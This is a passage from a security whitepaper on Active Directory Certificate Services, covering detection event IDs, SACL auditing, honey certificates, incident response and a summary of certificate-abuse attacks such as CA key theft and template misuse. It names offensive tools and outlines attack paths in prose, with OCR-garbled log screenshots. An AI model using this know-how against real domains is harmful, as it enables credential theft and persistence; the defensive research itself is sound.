| --- | --- | --- |
|  |  | Event Properties - Event 5058, Microsoft Windows security auditing. |
| General Details |  |  |
|  |  | General Details |
| Kev file operation. |  | · Friendly View O XML View |
| Subject: |  |  |
| Security ID: | CORP\itadmin |  |
| Account Name: | itadmin | + System |
| Account Domain: | CORP |  |
| Logon ID: | 0x7C463 | - EventData |
| Process Information: |  | SubjectUserSid S-1-5-21-3022474190-4230777124- |
| Process ID: | 5016 | 3051344698-1103 |
| Process Creation Time: | 2021-05-27T05:19:46.634568100Z | SubjectUserName itadmin |
| Cryptographic Parameters: |  | SubjectDomainName CORP |
| Provider Name: | Microsoft Software Key Storage Provider |  |
| Algorithm Name: UNKNOWN |  | SubjectLogonld 0x7c463 |
| Kev Name: | CORP-CORPDC01-CA | ClientProcessId 5016 |
| Key Type: | Machine key. | ClientCreationTime 2021-05-27T05:19:46.634568100Z |
| Key File Operation Information: |  | ProviderName Microsoft Software Key Storage Provider |
| File Path: | C:\ProgramData\Microsoft\Crypto\Keys\da3253b235d08 |  |
| Operation: | Read persisted key from file. | AlgorithmName UNKNOWN |
| Return Code: | 0x0 | KeyName CORP-CORPDC01-CA |
|  |  | KeyType %%2499 |
|  |  | KeyFilePath C:\ProgramData\Microsoft\Crypto\Keys\da |
|  |  | e790-44f8-96a8-5df2f60ee88d |
|  |  | Operation % %2458 |
|  |  | ReturnCode 0x0 |

#### Figure 103 - EID 5058 - Key File Operation

| Event 5061, Microsoft Windows security auditing. |  |  |  |
| --- | --- | --- | --- |
|  |  | Event Properties - Event 5061, Microsoft Windows security auditing. |  |
| General Details |  |  |  |
|  |  | General Details |  |
| Cryptographic operation. |  | · Friendly View O XML View |  |
| Subject: |  |  |  |
| Security ID: | CORP\itadmin |  |  |
| Account Name: | itadmin | + System |  |
| Account Domain: | CORP |  |  |
| Logon ID: | 0x7C463 | - EventData |  |
|  |  |  | SubjectUserSid S-1-5-21-3022474190-4230777124-305134 |
| Cryptographic Parameters: |  |  |  |
| Provider Name: | Microsoft Software Key Storage Provider | SubjectUserName itadmin |  |
| Algorithm Name: RSA |  |  |  |
| Key Name: | CORP-CORPDC01-CA | SubjectDomainName CORP |  |
| Key Type: | Machine key. | SubjectLogonId 0x7c463 |  |
| Cryptographic Operation: |  | ProviderName | Microsoft Software Key Storage Provider |
| Operation: | Open Key. | AlgorithmName RSA |  |
| Return Code: 0x0 |  |  |  |
|  |  | KeyName | CORP-CORPDC01-CA |
|  |  | KeyType | %%2499 |
|  |  | Operation | %%2480 |
|  |  | ReturnCode 0x0 |  |

Figure 104 - EID 5061 Cryptographic Operation

| Event 5059, Microsoft Windows security auditing. |  | Event Properties - Event 5059, Microsoft Windows security auditing. |
| --- | --- | --- |
| General Details |  |  |
|  | General | Details |
| Key migration operation. |  | · Friendly View O XML View |
| Subject: |  |  |
| Security ID: | CORP\itadmin |  |
| Account Name: | itadmin | + System |
| Account Domain: | CORP |  |
| Logon ID: | 0x7C463 | - EventData |
| Process Information: |  | SubjectUserSid S-1-5-21-3022474190-4230777124-3051 |
| Process ID: | 5016 | SubjectUserName itadmin |
| Process Creation Time: | 2021-05-27T05:19:46.634568100Z | SubjectDomainName CORP |
| Cryptographic Parameters: |  | SubjectLogonId 0x7c463 |
| Provider Name: | Microsoft Software Key Storage Provider |  |
| Algorithm Name: RSA |  | ClientProcessId 5016 |
| Key Name: | CORP-CORPDC01-CA | ClientCreationTime 2021-05-27T05:19:46.634568100Z |
| Key Type: | Machine key. |  |
|  |  | ProviderName Microsoft Software Key Storage Provider |
| Additional Information: |  | AlgorithmName RSA |
| Operation: | Export of persistent cryptographic key. |  |
| Return Code: | 0x0 | KeyName CORP-CORPDC01-CA |
|  |  | KeyType % % 2499 |
|  |  | Operation %%2464 |
|  |  | ReturnCode 0×0 |

Figure 105 - EID 5059 Key Migration Operation

#### Attack IDs:

- Forging Certificates with Stolen CA Certificates DPERSIST1 ●
# Monitor Certificate Template Modifications - DETECT4

Certificate templates should rarely change, as such, detection engineers should monitor them closely and generate alerts if changed unexpectedly. AD CS creates EID 4899 "A Certificate Services template was updated" when a template AD object's attributes change, surfacing the AD object attributes that changed:

| Event 4899, Microsoft Windows security auditing. | Event Properties - Event 4899, Microsoft Windows security auditing. |
| --- | --- |
| General Details |  |
| General | Details |
| A Certificate Services template was updated. · Friendly View | O XML View |
| DomainUsers v100.6 (Schema V2) |  |
| 1.3.6.1.4.1.311.21.8.15777491.455948.4866218.14801226.427 |  |
| CN=DomainUsers,CN=Certificate Templates,CN=Public | + System |
| - Template Change Information: | EventData |
| Old Template Content: | TemplateInternalName DomainUsers |
| msPKI-Certificate-Name-Flag = 0x82000000 (2181038080) |  |
| CT_FLAG_SUBJECT_ALT_REQUIRE_UPN -- 0x2000000 (33 | TemplateVersion 100.6 |
| CT FLAG SUBJECT REQUIRE DIRECTORY PATH -- 0x80 | TemplateSchemaVersion 2 |
| msPKI-Enrollment-Flag = 0x29 (41) | TemplateOID 1.3.6.1.4.1.311.21.8.15777491.455948.48662 |
| CT_FLAG_INCLUDE_SYMMETRIC_ALGORITHMS - | TemplateDSObjectFQDN CN=DomainUsers,CN=Certificate Ter |
| CT_FLAG_PUBLISH_TO_DS -- 0x8 |  |
| CT FLAG AUTO ENROLLMENT -- 0x20 (32) | DCDNSName CORPDC01.CORP.LOCAL |
| msPKI-Template-Minor-Revision = 5 | NewTemplateContent msPKI-Certificate-Name-Flag = 0x1 (1) 0 |
|  | CT_FLAG_INCLUDE_SYMMETRIC_ALGO |
| pKICriticalExtensions = | pKICriticalExtensions = 2.5.29.7 Subject |
| 2.5.29.15 Key Usage |  |
|  | OldTemplateContentmsPKI-Certificate-Name-Flag = 0x820000 |
| New Template Content: | CT FLAG SUBJECT REQUIRE DIRECTORY |
| msPKI-Certificate-Name-Flag = 0x1 (1) |  |
| CT FLAG ENROLLEE SUPPLIES SUBJECT -- 0x1 | CT FLAG INCLUDE SYMMETRIC ALGOR |
|  | msPKI-Template-Minor-Revision = 5 pKIC |
| msPKI-Enrollment-Flag = 0x9 (9) |  |
| CT_FLAG_INCLUDE_SYMMETRIC_ALGORITHMS -- 0x1 |  |
| CT_FLAG_PUBLISH_TO_DS -- 0x8 |  |

Figure 106 - EID 4899 "A Certificate Services template was updated"

AD CS generates EID 4900 "Certificate Services template security was updated" when a certificate template AD object's security descriptor changes:

| Event 4900, Microsoft Windows security auditing. |  |  |  |  |  |  | Event Properties - Event 4900, Microsoft Windows security auditing. |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| General Details |  |  |  |  |  |  |  |  |  |  |  |  |
|  | Details |  |  |  |  |  |  |  |  |  |  | General |
| Certificate Services template security was updated. |  |  | O XML View |  |  |  |  |  |  |  |  | · Friendly View |
| User v3.1 (Schema V1) |  |  |  |  |  |  |  |  |  |  |  |  |
|  | + System |  |  |  |  |  |  |  |  |  |  |  |
| CN=User, CN=Certificate Templates, CN=Public Key Service: |  |  |  |  |  |  |  |  |  |  |  |  |
| Template Change Information: | - EventData |  |  |  |  |  |  |  |  |  |  |  |
|  |  |  | TemplateInternalName User |  |  |  |  |  |  |  |  |  |
| New Template Content: |  |  |  |  |  |  |  |  |  |  |  |  |
| O:S-1-5-21-30 |  | Old Security Descriptor: |  |  |  |  |  | TemplateVersion 3.1 |  |  |  |  |
| 00c04f79dc55;;S-1-5-21-3022474190-4230777124-305134469 |  |  |  |  |  |  |  |  |  |  |  |  |
| 3022474190-4230777124-3051344698-519)(A;;LCRPRC;;;AU) |  |  |  | TemplateOID |  |  |  |  |  |  |  |  |
| Enroll |  |  |  |  |  |  |  |  |  | Services, CN=Services, CN=Configuration, DC=C |  |  |
| Allow |  | CORP\Domain Users |  | DCDNSName |  |  |  |  | CORPDC01.CORP.LOCAL |  |  |  |
| Enroll |  |  |  |  |  |  |  |  |  |  |  |  |
| Allow |  | CORP\Enterprise Admins |  |  |  |  |  | NewTemplateContent |  |  |  |  |
| Enroll |  |  |  |  |  |  |  |  | NewSecurityDescriptorO:S-1-5-21-3022474190-4230777124-3051344 |  |  |  |
| Allow(0x000f00ff) CORP\Domain Admins |  |  |  |  |  |  |  |  |  |  |  |  |
| Full Control |  |  |  |  | 5-21-3022474190-4230777124-3051344698-5 |  |  |  |  |  |  |  |
| Allow(0x000f00ff) CORP\Enterprise Admins |  |  |  |  |  | (OA;;RPWPCR;0e10c968-78fb-11d2-90d4-00c04f |  |  |  |  |  |  |
| Full Control |  |  |  |  |  |  |  |  |  |  |  |  |
| Allow(0x00020014) NT AUTHORITY\Authenticated |  |  |  |  |  |  | (OA;;RPWPCR;0e10c968-78fb-11d2-90d4-00c04f |  |  |  |  |  |
| Read |  |  |  |  |  |  |  |  |  | (OA;;RPWPCR;0e10c968-78fb-11d2-90d4-00c04 |  |  |
|  |  |  |  |  |  |  |  |  |  | 21-3022474190-4230777124-3051344698-519 |  |  |
| New Security Descriptor: |  |  |  |  |  |  |  |  |  |  |  |  |
| (OA;;RPWPCR;0e10c968-78fb-11d2-90d4-00c04f79dc55;;DA) |  |  |  |  |  |  |  |  |  | (A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;DA) |  |  |
| 00c04f79dc55;;S-1-5-21-3022474190-4230777124-305134469 |  |  |  |  |  |  |  |  |  | (A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;S-1-5-2 |  |  |
|  |  |  |  |  |  |  |  |  |  | 21-3022474190-4230777124-3051344698-519D |  |  |
| O:S-1-5-21-30 |  |  |  |  |  |  |  |  |  |  |  |  |
| 2022771100_A 22077712 A_20512 A A 6 1 2 A M 6 O R C D |  |  |  |  |  |  |  |  |  |  |  |  |
|  |  |  |  |  |  |  |  |  |  | 4230777124-3051344698-519) |  |  |
| Log Name: |  | Security |  |  |  |  |  |  |  | (A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;AU) |  |  |
| Source: Microsoft Windows security ; Logged: |  |  |  |  |  |  |  |  |  | CORP\Domain Admins Enroll Allow CORP\Doma |  |  |
| Event ID: Task Cated |  | 4900 |  |  |  |  |  |  |  |  |  |  |
|  |  |  |  |  |  |  |  |  |  | Allow CORP\Enterprise Admins Enroll Allow(0x00 |  |  |
| Level: Keywords: |  | Information |  |  |  |  |  |  |  | CORP\Domain Admins Full Control Allow(0x000f |  |  |
| User: Computer |  | N/A |  |  |  |  |  |  |  | CORP\Enterprise Admins Full Control Allow(0x00 |  |  |
|  |  |  |  |  |  |  |  |  | OldSecurityDescriptorO:S-1-5-21-3022474190-4230777124-30513446 |  |  |  |
| OpCode: |  | Info |  |  |  |  |  |  |  | AUTHORITY\Authenticated Users Full Control |  |  |
| Event Log Online Help |  |  |  |  |  |  |  |  |  |  | More Information: |  |
|  |  |  |  |  |  |  |  | OldTemplateContent |  |  |  |  |
| Old Template Content: |  |  |  |  |  |  |  |  |  |  |  |  |
| (OA;;RPWPCR;0e10c968-78fb-11d2-90d4-00c04f79dc55;;DA] |  |  |  |  | TemplateSchemaVersion 1 |  |  |  |  |  |  |  |
|  |  |  |  |  |  |  |  |  | TemplateDSObjectFQDN CN=User,CN=Certificate Templates,CN=Public |  |  |  |
| Allow |  | CORP\Domain Admins |  |  |  |  |  |  |  |  |  |  |

Figure 107 - EID 4900 "Certificate Services template security was updated"

lt is important to note that EID 4899 and 4900 are not suitable for real-time detection of template modification. These events only fire when the template AD object changes and then an enrollment occurs. When an account attempts to enroll in a certificate template, the Enterprise CA compares the loaded template cached in its memory with the template in AD and generates the appropriate event if they are different. Since this only occurs when the next enrollment occurs, this is not suitable for real-time detection template modification. In addition, during our testing, the Enterprise CA did not generate the events if the AD CS server rebooted after the template changed but before another enrollment occurred.

As an alternative to these events, organizations can apply SACLs to the template AD objects. For example, the following screenshot shows applying a SACL to the User certificate template AD object using adsiedit.msc to monitor anytime an account obtains Write, Delete, WriteDacl, and WriteOwner access to the object:



Figure 108 - Applying a SACL to the User Certificate Template

When a user edits the object via LDAP, AD generates EID 4662 "An operation was performed on an object" 187:

| Event 4662, Microsoft Windows security auditing. |  |  |
| --- | --- | --- |
|  |  | Event Properties - Event 4662, Microsoft Windows security auditing. |
| General Details |  |  |
|  |  | General Details |
|  | An operation was performed on an object. | O XML View |
| Subject : |  |  |
| Security ID: | CORP\itadmin |  |
|  | Account Name: itadmin | + System |
|  | Account Domain: CORP |  |
| Loaon ID: | 0x46D8F | EventData |
| Object: |  | SubjectUserSid S-1-5-21-3022474190-4230777124-3051344698-1103 |
|  | Object Server: DS | SubjectUserName itadmin |
|  | Obiect Type: pKICertificateTemplate |  |
|  | Object Name: CN=User,CN=Certificate Templates,CN | SubjectDomainName CORP |
| Handle ID: | 0x0 | SubjectLogonId 0x46d8f |
| Operation: |  | ObjectServer Dટ |
|  | Operation Type: Object Access | ObjectType %{e5209ca2-3bba-11d2-90cc-00c04fd91ab1} |
| Accesses: | Write Property |  |
|  |  | %{8d24b91b-3d4f-4edb-874c-825a34db1619} ObjectName |
|  | Access Mask: 0x20 |  |
| Properties: | Write Property | Operation Type Object Access |
|  | {771727b1-31b8-4cdf-ae62-4fe39fadf89e} | Handleld 0×0 |
|  | {ea1dddc4-60ff-416e-8cc0-17cee534bce7} | AccessList %%7685 |
|  | {e5209ca2-3bba-11d2-90cc-00c04fd91ab1} |  |
|  |  | AccessMask 0x20 |
| Additional Information: |  | Properties %%7685 {771727b1-31b8-4cdf-ae62-4fe39fadf89e} {ea |
|  | Parameter 1: | AdditionalInfo |
|  | Parameter 2: | AdditionalInfo2 |

Figure 109 - EID 4662 "An operation was performed on an object"

Note that the event captures the user performing the action and the type of access. The GUIDs in the ObjectType and Properties event correspond with AD schema property, property set, and class GUIDs, and various tools can resolve them to a name™ 189.

#### Attack IDs: ESC4, DPERSIST3

- Vulnerable Certificate Template Access Control - ESC4
- Account Persistence via Certificate Renewal - PERSIST3

## Detecting Reading of DPAPI-Encrypted Keys - DETECT5

In 2018, Palantir released a great post on using Windows system access control lists (SACLs) to implement granular auditing, for free, on Windows endpoints199. Organization can apply SACLs to both DPAPI master key files and the DPAPI-encrypted private key files to audit the processes and users that normally directly read these files. We assume only SYSTEM processes primarily access these files, but do not have the data set to yet confirm.

Applying SACLs to DPAPI masterkey and DPAPI-encrypted private key files can detect when a process uses standard Windows APIs to read the files (the approach SharpDPAPI and Mimikatz use by default), but it would not catch Mimikatz's patching of CAPI/CNG or other methods of

190 

alvsis-tools/blob/deda47e05a981387435894f1143623b0abfbc800/Ntl

reading files (e.g., parsing the NTFS file system). Organizations can use this approach to detect some forms of theft of both user/machine certificate private keys and certificate authority private keys that are not protected by hardware.

#### Attack IDs:

- User Certificate Theft via DPAPI THEFT2 ●
- Machine Certificate Theft via DPAPI – THEFT3
- Active User Credential Theft via Certificates – PERSIST1

## Use Honey Credentials – DETECT6

Attackers can search for certificates and private key files that, when used, could benefit the attacker when compromising a network. Discovered certificates could permit the attacker to authenticate to AD as another user, forge certificates (in the case of a CA certificate), man-in-themiddle traffic, or sign code using a trusted certificate (amongst many other things).

Defenders can take advantage of attackers seeking certificate and private key files and potentially detect some of their activities using honey credentials. Network defenders can create "honey certificates" and place them in common locations an attacker may search for them, e.g., accessible file shares, in Windows credential stores, or in administrative folders on users' machines. Defenders could place a SACL on the file to detect when someone accesses it or detect when the certificate is used (e.g., when a file is signed using it or when a user logs on using the certificate).

For example, detection engineers could create a legitimate account, create a legitimate client authentication certificate for the account, export the certificate and private key as a . pfx file, and then place the .pfx file in common locations an attacker may come across it. Detections could be built to detect when the file is accessed (e.g., using SACLs) or when the attacker attempts to logon using the certificate (e.g., monitoring EID 4624 logon events for Kerberos PKINIT or Schannel logons using the certificate).

#### Attack IDs:

- Finding Certificate Files - THEFT4


### Miscellaneous – DETECT7

Other events that might be of interest¹9¹, but we did not fully dive into:

- 4882: The security permissions for Certificate Services changed192 in case attackers are ● modifying ACLs of the CA itself.
- 4890: The certificate manager settings for Certificate Services changed. 193
- 4892: A property of Certificate Services changed.194 ●

SharpDPAPI's extraction method or host private keys involves having to elevate to SYSTEM to retrieve the DPAPI SYSTEM LSA secret, which is then used to decrypt the system masterkeys needed for the certificate private keys. Any detection/prevention as far as elevating to SYSTEM and dumping LSA secrets would apply here as well.

#### Attack IDs:

- Vulnerable Certificate Authority Access Control ESC7 .
# Incident Response Guidance

In the event of a breach, traditional incident response often results in the wiping/reprovisioning of a user's system and the reset of their domain password. However, as certificates are valid for their issued lifetime and the CA server's certificate lifetime, they survive user password resets. This means that legitimately issued certificates for the user/system may have been stolen, and/or certificates may have been maliciously requested.

The safest mitigation is to reprovision the affected user a new user account, disable the old user account, audit event logs for attempted authentication events, and wipe the user's workstation. If this is not possible, the user's password should be reset, and all certificates issued to that user and system should be revoked in AD CS.

Unfortunately, as mentioned previously, it's relatively difficult to programmatically investigate a Certificate Authority's database to determine if certificate issuances may be fraudulent. It's also difficult to revoke certificates outside of the certsrv.msc GUI, however the best toolkit we've found is the previously mentioned PSPK1195 PowerShell suite from PKISolutions. It contains

several useful functions, including the ability to revoke certificates199. As mentioned previously, PSPKIAudit can be used to investigate requests for specific templates, or requests from specific principals. The PSPKIAudit toolset being released with this whitepaper helps enable this type of investigation with its Get-CertRequest function.

lf a Certificate Authority server itself is compromised, or if its private key is in another other way exposed, an organization should consider their PKI system completely compromised. There are a number of response actions that should occur, which are detailed by Microsoft's "Securing PKI: Compromise Response"197 document. Microsoft has also published the "How to decommission a Windows enterprise certification authority and remove all related objects"198 which details technical steps for decommissioning a CA server. Full incident response guidance around AD CS compromise is out of the scope of this paper.

# Defensive Gaps and Challenges

The security considerations of AD CS are new material for most of us. While we attempted to cover as many bases as we could defensively, we are sure that we missed some preventative or defensive ideas. Also, additional attacks against AD CS are likely to be discovered by ourselves or others as a result of this research.

The proper detection of maliciously requested certificates, whether they specify alternate SANs or not, is a difficult problem. While some event IDs can be used to track certificate requests, the events lack some important information, and baselining/data processing will be needed in large environments for these detections to be effective. In the future, we hope that Microsoft gives us more detailed and security-focused event auditing for Active Directory Certificate Services, things like including the template and associated information with 4886/4887 events to facilitate event correlation, and/or including private key backups in the backup event along with more contextual information for those 4876/4877 events. Alerting organizations to misconfigured template configuration via event log notification would also be a great addition.

Once a Certificate Authority (or subordinate Certificate Authority) private key is stolen, we do not currently know of any method of detection for the usage of forged certificates, though we hope an approach is possible.

# Conclusion

Active Directory Certificate Services is not the easiest system to fully understand, implement, nor secure. There are a myriad of moving parts and several settings that, while appearing somewhat inconsequential, can drastically affect the security of the entire Active Directory environment. In summary, from an offensive perspective, certificate abuse can grant an attacker:

|  | Stealing existing user certificates capable of domain |
| --- | --- |
|  | authentication or actively requesting a new certificate |
| User Credential Theft (1 year+) |  |
|  | from a user's context. Survives user password changes |
|  | and can be done without elevation or touching LSASS! |
| Machine Persistence (1 year+) | Stealing existing system certificates capable of domain |
|  | authentication or actively requesting a new certificate |
|  | from a system's context, combined with resource-based |
|  | constrained delegation or just S4U2Self. Survives |
|  | machine password changes and can be done without |
|  | touching LSASS! |
| Domain Escalation Path(s) | Misconfigured certificate templates that allow Subject |
|  | Alternative Name (SAN) specification, vulnerable |
|  | Certificate Request Agent templates, vulnerable |
|  | template ACLs, the EDITF ATTRIBUTESUBJECTALTNAME2 |
|  | flag being set, vulnerable CA permissions, or NTLM relay |
|  | to web enrollment endpoints. |
| Domain Persistence | Stealing the certificate authority's private key and forging |
|  | certificates. |

lt is extremely easy for certificate misconfigurations to arise that allow unprivileged domain users to escalate their rights. We have seen a proliferation of these issues in real environments since we began looking in February 2021.

We reported the "NTLM Relay to AD CS HTTP Endpoints – ESC8" issue to MSRC on May 19th along with all domain escalation scenarios and received a response on June 8th of "We determined your finding is valid but does not meet our bar for a security update release." They recommended

enabling Extended Protection for Authentication™, and stated that they also opened up a bug concerning the template issues and our comments about poor telemetry with the AD CS feature team, who may consider additional design changes in a future release.

From a defensive perspective, we strongly recommend organizations audit their AD CS architecture and certificate templates and treat CA servers as Tier 0 assets with the same protections as Domain Controllers! It is also not enough to just reset a compromised user's password and/or reimage their machine. Passive (and active) certificate theft for domain users and computers is trivial given code execution in a user's/computer's context; therefore, any certificates issued for the user/computer must be revoked and well. The Defensive Guidance section has more information on how to proactively prevent, detect, and respond to the abuses detailed in this paper.

The tools the authors developed for this research, Certify (for certification template enumeration and request abuse), and ForgeCert (for certificate forgery from CA certs) will be released approximately 45 days from the publication date of this paper. The PowerShell toolset to enumerate vulnerable templates (PSPKIAudit²00) is now available.

src-hlog microsoft com/2009/12/08/extended-pr

<sup>200</sup> 


# Acknowledgements

All existing work we drew knowledge and inspiration from is listed in the "Prior Work" section.

Special thanks to Mark Gamache for co-uncovering many of these abuses and bringing additional details to our attention.

Special thanks to Benjamin Delpy for his existing work in this area and inspiration for us to pursue this research.

Special thanks to Ceri Coburn for their contribution to Rubeus that allows for certificate-based authentication without a physical smart card. This greatly facilitated our offensive research.

Thank you to Andrew Chiles, Jason Frank, Elad Shamir, and others from SpecterOps for content review.

